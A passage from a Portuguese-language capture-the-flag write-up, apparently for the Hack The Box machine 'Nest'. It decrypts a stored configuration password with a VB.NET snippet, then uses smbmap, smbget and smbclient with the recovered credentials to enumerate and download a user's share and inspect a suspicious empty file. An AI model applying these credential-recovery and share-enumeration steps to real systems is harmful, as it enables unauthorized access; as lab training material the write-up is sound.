     End Function

        Public Sub Main()
                Dim plain As String
                plain = DecryptString("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=")
                Console.WriteLine(plain)
        End Sub
End Module
{% endhighlight %}

Lembre-se que o DecryptString recebe o parametro do RU_config.xml

Rodando este script no dotnetfiddle.net nós obtemos: "xRxRxPANCAK3SxRxRx" portanto o user c.smith tem essa senha. Tentando listar os arquivos novamente com esse usuário e senha:

{% highlight bash %}
$ smbmap -H 10.10.10.178 -R --depth 10 -p xRxRxPANCAK3SxRxRx -u C.Smith
{% endhighlight %}

Nós conseguimos ver vários arquivos diferentes e conseguir a flag de usuário. Baixando tudo novamente.

{% highlight bash %}
$ smbget -R smb://10.10.10.178/Users/C.Smith -U c.smith
Password for [c.smith] connecting to //Users/10.10.10.178: 
Using workgroup WORKGROUP, user c.smith
smb://10.10.10.178/Users/C.Smith/HQK Reporting/AD Integration Module/HqkLdap.exe                                                          
smb://10.10.10.178/Users/C.Smith/HQK Reporting/Debug Mode Password.txt                               
smb://10.10.10.178/Users/C.Smith/HQK Reporting/HQK_Config_Backup.xml                              
smb://10.10.10.178/Users/C.Smith/user.txt                                
Downloaded 17.27kB in 12 seconds
{% endhighlight %}

Debug mode password.txt está vazio, o que parece estranho mas tentando conseguir mais informações sobre o mesmo:

{% highlight bash %}
$ smbclient -H \\\\10.10.10.178\\Users/ -U c.smith
directory_create_or_exist: mkdir failed on directory /run/samba/msg.lock: Permission denied
Unable to initialize messaging context
Enter WORKGROUP\c.smith's password: 
Try "help" to get a list of possible commands.
smb: \> cd C.Smith
dirsmb: \C.Smith\> dir
  .                                   D        0  Sun Jan 26 02:21:44 2020
  ..                                  D        0  Sun Jan 26 02:21:44 2020
  HQK Reporting                       D        0  Thu Aug  8 19:06:17 2019
  user.txt                            A       32  Thu Aug  8 19:05:24 2019
cd 
                10485247 blocks of size 4096. 6543375 blocks available
smb: \C.Smith\> cd HQK Reporting\
cd \C.Smith\HQK\: NT_STATUS_OBJECT_NAME_NOT_FOUND
smb: \C.Smith\> cd "HQK Reporting" 
smb: \C.Smith\HQK Reporting\> dir
  .                                   D        0  Thu Aug  8 19:06:17 2019
  ..                                  D        0  Thu Aug  8 19:06:17 2019
  AD Integration Module               D        0  Fri Aug  9 08:18:42 2019
  Debug Mode Password.txt             A        0  Thu Aug  8 19:08:17 2019
  HQK_Config_Backup.xml               A      249  Thu Aug  8 19:09:05 2019

                10485247 blocks of size 4096. 6543375 blocks available
smb: \C.Smith\HQK Reporting\> allinfo " Debug Mode Password.txt"
NT_STATUS_OBJECT_NAME_NOT_FOUND getting alt name for \C.Smith\HQK Reporting\ Debug Mode Password.txt
smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt"
altname: DEBUGM~1.TXT
create_time:    Thu Aug  8 07:06:12 PM 2019 EDT
access_time:    Thu Aug  8 07:06:12 PM 2019 EDT